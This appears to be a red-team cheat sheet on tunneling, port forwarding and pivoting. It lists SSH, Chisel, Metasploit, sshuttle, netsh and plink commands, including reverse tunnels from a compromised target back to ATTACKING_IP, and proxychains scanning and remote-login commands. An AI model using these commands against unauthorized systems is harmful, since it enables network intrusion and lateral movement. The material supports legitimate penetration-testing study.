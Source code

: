# Tunneling / Port Forwarding / Pivoting  
 Expose internal services, usually hidden due to firewall rules or gain further access into a network. 

[Pivot cheat sheet](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blt0f228a4b9a1165e4/5ef3d602395b554cb3523e7b/pivot-cheat-sheet-v1.0.pdf)   
[Pivoting for Red Teamers](https://artkond.com/2017/03/23/pivoting-guide/)   
[Basic Tuneling](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)  
 
 - [Tunneling / Port Forwarding / Pivoting](#tunneling---port-forwarding---pivoting)
  * [Chisel](#chisel)
    + [Chisel socks Reverse Proxy](#chisel-socks-reverse-proxy)
    + [Chisel socks Forward Proxy](#chisel-socks-forward-proxy)
    + [Chisel Remote Port Forward](#chisel-remote-port-forward)
    + [Chisel Local Port Forward](#chisel-local-port-forward)
- [Linux Port Forwarding](#linux-port-forwarding)
  * [SShuttle](#sshuttle)
- [Windows Port Forwarding](#windows-port-forwarding)
  * [SSH (Window 10 and newer)](#ssh--window-10-and-newer-)
  * [Plink.exe](#plinkexe)

## SSH 
In SSH session: press enter a few times then ~C to append more tunnels to command (open command line mode). 
Config file: /etc/ssh/sshd_config. Need to restart SSH service whenever config changes are made.       

    /usr/sbin/sshd -t    #validate SSH config    
    systemctl status ssh    #view SSH server status 
    systemctl restart ssh   #restart SSH 
    systemctl stop ssh   #stop SSH server 
    systemctl start ssh   #Start SSH   
### Local Tunnels 
Local tunnel from Kali attack box through a pivot to a service on target. Default local ip is 0.0.0.0

    ssh -p <port> user@pivot -L <local ip for specific interface>:<local port on attack box>:<target host>:<target port> 
    
### Reverse Tunnels
Remote tunnel to Kali through a pivot from target (may need to join tunnels depending on config)  

    open up pivot pivot to forward traffic back to local Kali box 
    ssh -R <pivot port>:localhost:<local port> user@<pivot ip> 
    
### Dynamic Tunnels           
Set up dynamic tunnels to scan through them (see scanning section below for more details)     

    ssh -D 9050 user@localhost -p <port on kali used for tunnel> 

    
 ## Chisel 
[Chisel](https://github.com/jpillora/chisel)   
[Pivoting with Chisel Guide](https://ap3x.github.io/posts/pivoting-with-chisel/)  
Good for getting through firewalls, need correct copies of binaries on both target / attack box  
Need to change /etc/proxychains4.conf socks4 to socks5 on attack box 
### Chisel socks Reverse Proxy 
    attack    ./chisel server -p LISTEN_PORT --reverse &  
    target    ./chisel client ATTACKING_IP:LISTEN_PORT R:socks & 
### Chisel socks Forward Proxy 
    target    ./chisel server -p LISTEN_PORT --socks5  
    attack    ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks 
### Chisel Remote Port Forward 
    attack    ./chisel server -p LISTEN_PORT --reverse &  
    target    ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT & 
### Chisel Local Port Forward 
    target    ./chisel server -p LISTEN_PORT 
    attack    ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT 
 
## Metasploit Tunneling   
Route pivoting:    

    msf (meter) > bg 
    msf > router add 10.10.10.0/24 1   #add route to session 1, then scan or exploit using the session     
    Can then use scanners / commands like: auxiliary/scanner/portscan/tcp, nmap, dn_nmap modules.        
    msf (meter) > run arp_scanner -r 10.10.10.0/24    

 # Linux 
 
 ## SShuttle
  If pivot is a Linux box with python installed you can ssh into: can use [sshuttle](https://github.com/sshuttle/sshuttle) to connect into network. 
  
      apt-get install sshuttle 
      sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i id_rsa" 10.10.0.0/24 -x [pivot ip]
 
 ## IPTables 
 
     iptables -t nat -A PREROUTING -p tcp --dport 2222 -j DNAT --to-destination 192.168.0.20:22 

 
 # Windows           
     netsh firewall show config 
     netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT    
## Portproxy

    netsh interface portproxy add <type> listenport=<port in> connectport=<port out> connectaddress=<destination>  
    <type> can be v4tov4, v4tov6, v6tov4, v6tov6      
    netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100 connectport=80    


## SSH (Window 10 and newer)
     [from target box to expose SMB ]
     ssh -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS 
## Plink.exe
[upload plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  

     plink.exe -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS   <-note entering in your password on a victim box is a bad idea
     
     [generate ssh keys on kali, convert to putty keys and then upload with plink.exe to target ] 
     sudo apt install putty-tools 
     puttygen KEYFILE -o OUTPUT_KEY.ppk 
     cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N 
     
# Scanning though a pivot 
uploading static binaries from [here](https://github.com/andrew-d/static-binaries)  
Nmap scanning through a dynamic SOCKS proxy - need TCP full connect scan (-sT).    
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy        
Nmap scan through proxychains:    

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
Use WinRM through proxychains:    

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
RDP through ProxyChains:     

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip   
## Commands    
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
   
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " " 

